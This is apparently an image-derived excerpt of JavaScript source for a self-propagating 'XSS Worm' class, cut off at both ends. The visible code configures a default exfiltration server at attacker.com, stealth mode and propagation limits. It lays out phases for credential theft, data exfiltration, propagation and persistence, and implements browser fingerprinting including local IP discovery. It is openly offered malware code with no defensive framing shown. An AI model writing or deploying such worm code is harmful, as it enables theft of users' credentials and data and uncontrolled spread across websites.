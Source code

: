 ```
            attackerServer: config.attackerServer || 'https://attacker.com',
            propagationDelay: config.propagationDelay || 5000,
            maxPropagations: config.maxPropagations || 10,
            stealthMode: config.stealthMode || true,
            ...config
        };
        
        this.infected = new Set();
        this.propagationCount = 0;
        
        // Prevent re-infection
        if (window.xssWormActive) return;
        window.xssWormActive = true;
        
        this.initialize();
    }
    
    initialize() {
        console.log('🦠 XSS Worm initializing...');
        
        // Phase 1: Information gathering
        this.gatherSystemInfo();
        
        // Phase 2: Credential theft
        this.stealCredentials();
        
        // Phase 3: Data exfiltration
        this.exfiltrateData();
        
        // Phase 4: Propagation
        setTimeout(() => this.propagate(), this.config.propagationDelay);
        
        // Phase 5: Persistence
        this.establishPersistence();
        
        // Phase 6: Monitoring
        this.startMonitoring();
    }
    
    gatherSystemInfo() {
        const systemInfo = {
            userAgent: navigator.userAgent,
            platform: navigator.platform,
            language: navigator.language,
            cookieEnabled: navigator.cookieEnabled,
            onLine: navigator.onLine,
            screen: {
                width: screen.width,
                height: screen.height,
                colorDepth: screen.colorDepth
            },
            location: {
                href: window.location.href,
                hostname: window.location.hostname,
                pathname: window.location.pathname
            },
            referrer: document.referrer,
            timestamp: Date.now()
        };
        
        // Advanced fingerprinting
        if (window.RTCPeerConnection) {
            this.getLocalIPs().then(ips => {
```